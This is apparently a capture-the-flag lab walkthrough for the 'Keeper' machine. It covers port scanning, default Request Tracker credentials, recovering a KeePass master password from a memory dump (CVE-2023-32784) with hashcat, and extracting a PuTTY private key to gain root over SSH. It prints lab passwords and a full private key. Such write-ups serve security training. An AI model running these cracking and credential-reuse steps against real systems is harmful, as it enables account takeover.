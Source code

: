 ## Keeper

### Lab Details 

- Difficulty: Easy
- Type: Web App, KeePass, Priv Esc

#### Tasks

Q1: How many open TCP ports are listening on Keeper?
 - `nmap 10.10.11.227 -sT -p- -T4 -vv -oA nmap_keeper`
 ```
 Not shown: 65497 closed tcp ports (conn-refused)
 PORT      STATE    SERVICE     REASON
 22/tcp    open     ssh         syn-ack
 80/tcp    open     http        syn-ack
 ```
Q2: What is the default password for the default user on Request Tracker (RT)?
 - Searching on google for default user login
 - username:root
 - password:password

Q3: Besides root, what other user is in RT?
 - visit Admin -> User on the top tool bar 
 - ref image attached 
![[RT.png]]

Q4: What is the lnorgaard user's password on Keeper?
 - user password is in the comment section of the user profile
 ![[user_comment.png]]

Q5: Submit the flag located in the lnorgaard user's home directory.
 - login to target using new found username and password
 - lnorgaard:Welcome2023!

Q6: Submit the flag located in the lnorgaard user's home directory.
 - cat user.txt

Q7: What is the 2023 CVE ID for a vulnerability in KeePass that allows an attacker access to the database's master password from a memory dump?
 - searching google regarding the 2023 keepass masterkey mem dump gives results on CVE-2023-32784
 - this github repo goes into details regarding the attack -> https://github.com/vdohney/keepass-password-dumper 

Q8: What is the master password for passcodes.kdbx?
 - we need 2 files to extract the master key according to https://github.com/JorianWoltjer/keepass-dump-extractor 
 - 1. memory dump of the KeePass process 
 - 2. the .kdbx file that we want to crack

 ```  
 keepass-dump-extractor KeePass.DMP -f all > wordlist.txt
 keepass2john passwords.kdbx > passwords.kdbx.hash
 hashcat -m 13400 --username passwords.kdbx.hash wordlist.txt
 ```
 - we get `rødgrød med fløde` as the master key after running hashcat

Q9: What is the first line of the "Notes" section for the entry in the database containing a private SSH key?
 - tried to wget the passcode.kdbx and viewing it using keepass GUI however getting error 
 - install kpcli to interact with the database file via cli
 - command to view the entry is `show 0 -f` where 0 is the first entry and -f will show the password in plain.
```
kpcli:/passcodes/Network> show 0 -f

Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: F4><3K0nd!
  URL: 
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
       EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
       Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
       FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
       LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
       Private-Lines: 14
       AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
       oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
       kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
       f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
       VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
       UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
       OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
       in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
       SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
       09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
       xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
       AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
       AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
       NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
       Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```
Q10: Submit the flag located in the root user's home directory.
 - the file in keeper.htb is a .ppk and in order to use it to login to ssh we will need to seperate the ssh private key from it
 - we need puttygen to perform this task 
 ```
 sudo apt install putty-tools
 puttygen keeper.ppk -O private-openssh -o id_rsa
 ``` 
 - where keeper.ppk is the file that contains the note section and id_rsa is the private key we can use to login to root via ssh 
 ``` 
 ssh -i id_rsa target_ip 
 ```


#### Lesson Learned
 - Overcomplicating things, was expecting a RCE from an exploit in the web app to gain the initial foothold 
 - Try new found logins with different services on the target
